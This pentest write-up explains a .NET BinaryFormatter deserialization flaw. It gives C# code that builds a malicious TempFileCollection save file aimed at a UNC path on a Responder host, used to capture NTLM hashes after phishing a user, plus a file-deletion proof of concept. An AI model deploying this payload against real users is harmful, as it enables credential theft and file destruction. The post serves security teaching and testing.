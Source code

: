 ```yaml
---
layout: post
title: .NET Deserialization to NTLM Hashes
tags: [.net, deserialization, vulnerability, ntlm, pentest]
redirect_from: /single-post/2018/04/22/NET-Deserialization-to-NTLM-hashes
---
```

During a recent penetration test, we came across a interesting technique we used to get admin credentials (well, NTLM hashes which were then cracked). There is nothing particularly new or novel about this attack, and it requires specific requirements to be useful, but we thought it was interesting enough to share. A blog post on a very similar technique was posted recently by Gianluca Baldi on the [mediaservice.net blog](https://techblog.mediaservice.net/2018/02/from-xml-external-entity-to-ntlm-domain-hashes/) and we found we were able to do something very similar but with a .net deserialization vulnerability rather than XXE.

This specific vulnerability is triggered when a user loads a malicious file, so user interaction is required, however a similar vulnerability could exist in applications accessible over the network. It all depends on where data is deserialized.

## Deserialization Basics
Deserialization is something that anyone that does a lot of thick application or web application security testing should be familiar with. Usually discussed in the context of Java, deserialization vulnerabilities are something that could be present in many applications, including .NET apps.

For those not so familiar with the idea, serialization is the process of translating objects into a format that can be stored or transmitted ([https://en.wikipedia.org/wiki/Serialization](https://en.wikipedia.org/wiki/Serialization)). Deserialization is the opposite; taking a stream of bytes and turning them into an object that can be used by the application. Why might this be useful? Often this can be for RPC where two applications (maybe on different hosts) can communicate. It's also fairly common when the state of an application needs to be saved. In this case the serialized data is written to disk and later restored.

We can see this in action with the example below.

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

namespace serialisationTest1
{
    [Serializable]
    class MyClass
    {
        private int x = 1;
        private int y = 2;
        public string s = "Hello World";
        public MyClass() { Console.WriteLine("In Constructor"); }
        public void Method() { Console.WriteLine("Method()"); }
        public void Dispose()
        {
            Console.WriteLine("Disposing Object");
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            MyClass myClass = new MyClass();
            using (FileStream fileStream = File.OpenWrite("save"))
            {
                binaryFormatter.Serialize(fileStream, myClass);
            }
        }
    }
}
```

This creates a file, save, which we can view in a text editor.

![]({{ site.baseurl }}/assets/img/2018-04-22-net-deserialization-to-ntlm-hashes/1.png)

This can sometimes be exploited by an attacker when the application deserializes untrusted data. If we look at the deserialized object above, it should be obvious that whilst we cannot directly inject code into the application, we may be able to do something useful (i.e. malicious) if the object we're deserializing does something in it's constructor or in it's dispose method - a method that is called by the Garbage Collector when a .NET object is destroyed. This is because the object does actually get created and destroyed when a deserialization attempt is made, even if the object can't be used because it's the wrong type.

## The Vulnerability
During our test, we found that desktops had a .NET application installed. While we can't go into detail about the nature of the application, we can say it had a "save" feature. To save, the app took a specific object and serialized it to disk. It could then load this save by doing the opposite. It would take the saved object and deserialize it.

The vulnerable code is similar to below:

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

namespace serialisationTest1
{
    class Program
    {
        static void Main(string[] args)
        {
            string saveFile = "save";
            MyClass myClass = null;
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            FileStream fileStream = File.OpenRead(saveFile);
            try {
                Object o = binaryFormatter.Deserialize(fileStream);
                myClass = (MyClass)o;
                myClass.Method();
            }
            catch (Exception) { }
        }
    }
}
```

As stated before, in this specific case, we need to find an object that does something useful when it's created or destroyed.

`System.CodeDom.Compiler.TempFileCollection` is an object in .NET that deletes a file which has been added with it's `AddFile` method. This was proven by creating a file in a specific location (`d:\file1`), and using the serialized `TempFileCollection` as the application "save" file. The deserialzed object was created with the following code snippet:

```csharp
static void Main(string[] args)
{
    BinaryFormatter binaryFormatter = new BinaryFormatter();
    TempFileCollection tempFileCollection = new TempFileCollection();
    tempFileCollection.AddFile("d:\\test",false);
    using (FileStream fileStream = File.OpenWrite("save"))
    {
    binaryFormatter.Serialize(fileStream, tempFileCollection);
    }
}
```

When we loaded the save file, the application deserialized the object did indeed delete the test file. This is a nice proof of concept, but can we take it further?

## Getting Credentials
At this point, we have an application that has a deserialization vulnerability that gets triggered when a save file is opened and an object we can deserialize that deletes a file we can specify. Is it possible to go from this to something more useful? This step should be quite familiar to anyone with penetration testing experience.

Windows will attempt to authenticate with a server if a file is is read from a UNC path (i.e. `\\host\file`). If we change the file that is deleted to a UNC path on a server with Responder running, we'll be able to capture the NTLM handshake an attempt to crack the password.

The following .NET code generates our payload:

```csharp
static public void MakeObject()
{
    BinaryFormatter binaryFormatter = new BinaryFormatter();
    TempFileCollection tempFileCollection = new TempFileCollection();
    tempFileCollection.AddFile("\\\\<responderIP>\\test", false);
    using (FileStream fileStream = File.OpenWrite("save"))
    {
    binaryFormatter.Serialize(fileStream, tempFileCollection);
    }
}
```

We then ran Responder, sent the file to the user (via a phishing attack) and waited. Lo and behold, after a little while we had the hashes we could then use for cracking.

![]({{ site.baseurl }}/assets/img/2018-04-22-net-deserialization-to-ntlm-hashes/2.jpg)

With a good dictionary, a poor password policy and a bit of time, we were successful in cracking the password.
